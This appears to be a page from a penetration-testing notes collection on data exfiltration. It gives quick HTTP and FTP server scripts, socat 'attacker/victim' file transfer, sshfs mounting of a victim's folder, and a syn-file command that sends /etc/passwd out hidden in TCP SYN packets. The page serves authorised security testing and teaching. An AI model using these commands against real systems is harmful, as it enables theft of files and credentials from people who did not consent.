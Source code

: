 # Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

Not much here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)

## Simple HTTP Servers

```
python2 -m SimpleHTTPServer $port
python3 -m http.server $port
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
```

## Python HTTP server

TODO: add --help to python file sharing scripts (issue [#14](https://github.com/zweilosec/Infosec-Notes/issues/14))

* Add argument parsing capability
* add `--help` argument for getting usage description
* add arguments for all user input variables
* FTP Server script has hardcoded values that need to be replaceable

Script for listing and sharing files in a folder. Uses python3's `http.server` module.

```bash
#!/bin/bash

#Makes different colored text
GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

#font=Big http://www.patorjk.com/software/taag/
echo -e "\n$CYAN""
  _____       _   _                   ______ _ _       _____                          
 |  __ \     | | | |                 |  ____(_) |     / ____|                         
 | |__) |   _| |_| |__   ___  _ __   | |__   _| | ___| (___   ___ _ ____   _____ _ __ 
 |  ___/ | | | __| '_ \ / _ \| '_ \  |  __| | | |/ _ \\___ \ / _ \ '__\ \ / / _ \ '__|
 | |   | |_| | |_| | | | (_) | | | | | |    | | |  __/____) |  __/ |   \ V /  __/ |   
 |_|    \__, |\__|_| |_|\___/|_| |_| |_|    |_|_|\___|_____/ \___|_|    \_/ \___|_|   
         __/ |                                                                        
        |___/                                                                         
$RES"
echo -e "Created By$GN Ac1d $RES\n"
echo -e "Updated by$CYAN zweilos $RES\n"

#list IPs associated with current hostname
HN="hostname -I"
#put the IPs into a list
res=$(eval $HN)
arrIN=(${res// / })
IP=""

#if there is more than one IP available, list the first two as options
#TODO: make a way to list all options
if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which IP address?: '
        options=("${arrIN[0]}" "${arrIN[1]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "${arrIN[0]}")
                        IP="${arrIN[0]}"
                        break
                ;;

                "${arrIN[1]}")
                        IP="${arrIN[1]}"
                        break
                ;;
                "Quit")
                break
                ;;
                *) echo "Invalid option: $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo ""
echo "IP: "$IP
echo ""
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget http://${IP##*( )}:8099/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo ""
echo -e "\nCurrent Directory Contents"
ls --color .
echo ""
echo -e "\nStarting Server"

python3 -m http.server 8099  -d .
```

## Python FTP server

```bash
#!/usr/bin/env python3


##Author : Paranoid Ninja
#Modified: Zweilos
##Descr  : Creates a Simple FTP Server in the tmp directory

from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

FTP_PORT = 2121
FTP_USER = "ninja"
FTP_PASSWORD = "ninja"
FTP_DIRECTORY = "."


def main():
    dir = input("Run in the current directory? [y/n]\n")
    if (dir != "y") or (dir != "Y"):
        FTP_DIRECTORY = input("Please enter a directory:")

    authorizer = DummyAuthorizer()
    authorizer.add_user(FTP_USER, FTP_PASSWORD, FTP_DIRECTORY, perm='elradfmw')

    handler = FTPHandler
    handler.authorizer = authorizer
    handler.banner = "Ninja FTP Server"

    address = ('', FTP_PORT)
    server = FTPServer(address, handler)

    server.max_cons = 256
    server.max_cons_per_ip = 5

    server.serve_forever()


if __name__ == '__main__':
    main()
```

## Socat

```bash
#to attacker
sudo socat TCP4-LISTEN:$port:fork file:$file_name
#from victim
socat TCP4:$IP:$port file:$filename,create
```

`sudo` is necessary if the port is under 1024. `fork` allows for multiple connections.

## SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

```bash
sudo apt install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```

## Data exfiltration using TCP SYN <a href="#h-data-exfiltration-using-tcp-syn" id="h-data-exfiltration-using-tcp-syn"></a>

We can use TCP SYN sequence number packets to exfiltrate data using the `syn-file` tool.

```bash
./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5ch
```

* [https://github.com/defensahacker/syn-file](https://github.com/defensahacker/syn-file)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
